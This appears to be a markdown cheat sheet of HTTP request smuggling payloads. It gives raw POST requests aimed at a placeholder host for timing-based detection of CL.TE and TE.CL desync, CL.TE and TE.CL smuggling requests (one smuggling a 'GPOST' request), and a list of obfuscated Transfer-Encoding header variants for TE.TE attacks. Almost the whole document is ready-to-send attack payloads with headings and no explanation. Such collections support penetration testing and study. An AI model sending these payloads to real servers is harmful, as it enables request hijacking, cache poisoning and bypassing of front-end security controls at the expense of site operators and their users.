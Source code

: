 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\n\r
\n\r
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

